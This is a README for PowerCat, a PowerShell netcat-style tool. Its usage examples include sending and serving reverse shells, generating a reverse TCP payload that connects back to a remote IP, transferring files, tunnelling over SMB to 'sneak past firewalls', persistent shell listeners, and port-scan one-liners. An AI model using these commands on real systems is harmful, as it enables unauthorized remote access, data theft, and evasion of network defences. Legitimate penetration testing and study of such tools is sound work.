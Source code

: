 PowerCat
====
A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat<br/>Inspired by: https://github.com/besimorhino/powercat

Installation
------------
PowerCat is packaged as a PowerShell module.  You must import the module to use its functions.
```powershell
    # Import the functions via the psd1 file:
    Import-Module PowerCat.psd1
```
#### Functions & Parameters:
```powershell    
Start-PowerCat      # Starts a listener/server.
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb.
    -Port           # The port to listen on.
    -PipeName       # Name of pipe to listen on.
	
    -SslCn	    # Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -KeepAlive      # Restart after disconnecting.
    -Timeout        # Timeout option. Default: 60 seconds
	
Connect-PowerCat    # Connects a client to a listener/server.
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb
    -RemoteIp       # IPv4 address of host to connect to.
    -Port           # The port to connect to.
    -PipeName       # Name of pipe to connect to.
	
    -SslCn	    # Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -Timeout        # Timeout option. Default: 60 seconds
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads from / writes to the console.
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Receive File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve (Power)Shells using the -Execute parameter.
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB (easily sneak past firewalls):
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
SSL
-----------
PowerCat generates X509 certificates on-the-fly to provide SSL encryption of TCP connections. 
```powershell
    # Admin privileges are required to generate the self-signed certificate.
	
    # Serve an SSL-Encrypted (Power)Shell:
    Start-PowerCat -Mode Tcp -Port 80 -SslCn <Certificate Common Name> -Execute
        
    # Connect to an SSL encrypted Ncat listener:
    # Setup *nix with openssl & Ncat:
    # openssl req -X509 -newkey rsa:2048 -subj /CN=PowerCat -days 90 -keyout key.pem -out cert.pem
    # ncat -l -p 80 --ssl --ssl-cert cert.pem --ssl-key key.pem
	
    Connect-PowerCat -Mode Tcp -RemoteIp 10.1.1.1 -Port 80 -SslCn PowerCat 
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using the New-PowerCatPayload function. 
```powershell
    # Generate a reverse tcp payload that connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a tcp payload that listens on port 8000:
    New-PowerCatPayload -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also perform port-scans, start persistent listeners, or act as a simple web server.
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -Execute -KeepAlive
	
    # Simple Web Server:
    Start-PowerCat -Port 80 -SendFile index.html
```
Exiting
----------
In most cases, the ESC key can be used to gracefully exit PowerCat.

